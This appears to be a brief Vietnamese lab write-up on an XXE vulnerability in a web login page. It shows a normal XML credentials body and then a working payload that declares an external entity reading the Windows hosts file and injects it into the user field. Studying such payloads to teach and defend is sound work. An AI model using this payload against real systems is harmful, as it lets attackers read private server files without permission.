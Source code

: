## Người thực hiện: Trần Ngọc Nam
## Thời gian thực hiện: 24/5/2022

- Đây là giao diện web bị lỗi XEE.
  
  ![CHESSE](../../img/17.png)

- Vì trang web đang sử dụng xml
    ```php
    <?xml version="1.0" encoding="UTF-8"?>
    <creds>
        <user>Tsuki Azuma</user>
        <pass>admin</pass>
    </creds>
    ```
- Đây là dạng xml rất dễ tự tấn công. Nên lúc này, kẻ tấn công có thể sửa xml để thực hiện các hành động tấn công như
    ```php
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///C:/Windows/System32/drivers/etc/hosts" >]>
    <creds>
        <user>&xxe;</user>
        <pass>admin</pass>
    </creds>
    ```
  
  ![CHESSE](../../img/18.png)

- Như vậy, kẻ tấn công đã có thể dễ dàng lấy thông tin từ file hosts 1 cách dễ dàng.